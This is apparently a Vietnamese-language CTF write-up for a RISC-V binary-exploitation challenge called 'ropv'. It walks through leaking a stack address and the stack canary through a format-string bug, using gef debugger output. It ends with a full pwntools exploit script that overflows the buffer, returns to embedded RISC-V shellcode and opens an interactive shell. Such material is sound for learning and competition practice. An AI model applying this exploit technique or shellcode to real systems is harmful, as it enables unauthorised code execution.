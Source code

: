 # ROPV
Link hướng dẫn [here](https://hackmd.io/@-igYKgCkR_aGfvddJjS3QA/rk0CLg6H2)
## Source
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/a5802f02-e5db-4800-9846-a97ad0366399)
## Ý tưởng
- Lỗi bof và fmt
- Đầu tiên ta sẽ tìm stack của nó ở đâu trước đã bằng cách nhập vào 8 byte a và debug, tìm xem nó ở đâu
```c
gef➤  search-pattern aaaaaaaa
[+] Searching 'aaaaaaaa' in memory
[+] In (0x4000001000-0x4000801000), permission=rw-
  0x40007ffc80 - 0x40007ffc88  →   "aaaaaaaa[...]"
```
- Thì ta thấy với %p, nó đã leak cho ta một địa chỉ stack, để kiểm tra ta sẽ nhập vào payload "%paaaaaa", và debug tìm chuỗi thì đúng 2 địa chỉ này là stack
```
0x40007ffc80aaaaaa

gef➤  search-pattern aaaaaa
[+] Searching 'aaaaaa' in memory
[+] In (0x4000001000-0x4000801000), permission=rw-
  0x40007ffc82 - 0x40007ffc88  →   "aaaaaa[...]"
```
- Tiếp theo với %9$p ta leak được canary
- Khi này ta có
```
0x000040007ffc80│+0x0000: "%p %9$p\n"    ← $rsi, $r13, $r14
0x000040007ffc88│+0x0008: 0xd3b7dc8134258000                        #canary
0x000040007ffc90│+0x0010: 0x000000000109d0  →  0xf437e456f8227139   
0x000040007ffc98│+0x0018: 0x00000000010696  →  0x000007132f6040ef
0x000040007ffca0│+0x0020: 0x0000000000000000                       #shellcode 
0x000040007ffca8│+0x0028: 0x0000000000000001
```
## Kết quả
![image](https://github.com/wan-hyhty/CTFs_competition/assets/111769169/9178c0d4-96d4-4da6-a589-30ef87028b73)

```python
#!/usr/bin/python3

from pwn import *

exe = ELF('ropv', checksec=False)

# context.binary = exe


def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''


                c
                ''')
        input()


shellcode = b'\x01\x11\x06\xec\x22\xe8\x13\x04\x21\x02\xb7\x67\x69\x6e\x93\x87\xf7\x22\x23\x30\xf4\xfe\xb7\x77\x68\x10\x33\x48\x08\x01\x05\x08\x72\x08\xb3\x87\x07\x41\x93\x87\xf7\x32\x23\x32\xf4\xfe\x93\x07\x04\xfe\x01\x46\x81\x45\x3e\x85\x93\x08\xd0\x0d\x93\x06\x30\x07\x23\x0e\xd1\xee\x93\x06\xe1\xef\x67\x80\xe6\xff'
def info(msg): return log.info(msg)
def sla(msg, data): return p.sendlineafter(msg, data)
def sa(msg, data): return p.sendafter(msg, data)
def sl(data): return p.sendline(data)
def s(data): return p.send(data)


if args.REMOTE:
    p = remote('')
else:
    p = process('qemu-riscv64 -g 4000 ropv'.split())

GDB()
sla(b"Echo server: ", b"%p %9$p")
stack = int(p.recvuntil(b" ", drop=True), 16)
canary = int(p.recvline(keepends=False), 16)
info("stack: " + hex(stack))
info("canary: " + hex(canary))
payload = b"a" * 8 + p64(canary) + b'a'*8+ p64(stack+32) + shellcode
sla(b"Echo server: ", payload)

p.interactive()
```
